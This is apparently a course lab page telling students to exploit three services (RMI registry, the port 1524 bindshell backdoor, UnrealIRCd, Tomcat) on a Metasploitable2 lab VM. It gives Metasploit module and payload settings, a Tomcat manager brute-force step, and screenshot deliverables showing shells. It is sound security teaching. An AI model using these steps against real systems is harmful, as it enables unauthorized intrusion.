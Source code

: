 <div class='alert alert-warning'><strong>Oh no!</strong> This section is a vague
as they come. But there still are hints.</div>

Now, exploit three additional services from the following list, using what you
learned above.

* 1099 \| RMIRegistry
    * set `srvhost` to kali's infosec-net ip address.
* 1524 \| bindshell
    * this is a backdoor shell set up on Metasploitable2, just waiting for a connection…
    * easy way, skip Metasploit and use `netcat` (`nc`)
        * Read basic docs on `nc` -- flex your self-learning muscle!
    * Metasploit way:
        * `use exploit/multi/handler`
        * `set payload generic/shell_bind_tcp`
        * `set lport 1524`
        * `set rhost 192.168.56.102`
* 6667 \| unrealircd
    * to get the precise version number, connect to the IRC server running on metasploitable2.
        * `apt install hexchat`
        *  run `hexchat`
        * Networks > Add > (name it whatever) > Edit
          * replace `newserver/6667` with `192.168.56.102/6667`
          * unselect "Use SSL for all the servers on this network"
            {% include lab-image.html width="200px" image='hexchat-msf2-config.png' %}
        * connect
        * precise version number will be reported by the server in the chat window
        * search msf db for an exploit for the server name/version
* 8180 \| tomcat
    * tomcat is running on port 8180
    * view by browsing to `192.168.56.102:8180`
    * need manager creds 192.168.56.102:8180/manager/html
    * bruteforce tomcat manager username:password with auxiliary/scanner/http/tomcat_mgr_login
    * once you have the tomcat mgr username:password, exploit (`search type:exploit name:tomcat`)
    * set httpusername and httppassword
    * don't forget to set port


## Part 2 Deliverable

For <span class='badge badge-success'>each of the three additional exploits</span>, take <span class='badge badge-info'>one</span> screenshot showing:

* running the exploit and obtaining a shell,
* interacting with that shell (if not done automatically),
* if dropped into a meterpreter session, dropping into a basic shell via the meterpreter `shell` command
* running the `date` command (don't worry about the date being a few days off due to metasploitable2 lagging)
* running `echo <your first and last name>` command.

### Example -- Screenshot 1 out of 3:
